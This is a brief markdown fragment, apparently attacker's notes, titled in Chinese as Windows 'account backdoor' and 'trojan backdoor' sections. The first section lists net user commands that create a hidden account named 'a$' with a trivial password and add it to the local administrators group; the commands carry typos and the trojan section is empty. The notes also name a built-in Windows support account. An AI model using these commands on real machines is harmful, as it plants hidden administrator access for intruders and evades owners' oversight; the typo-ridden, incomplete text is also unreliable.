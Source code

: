 # windows
## 账号后门

net user
net user a$ a /add
net localgrop administrators a /dd

support_388945a0

## 木马后门

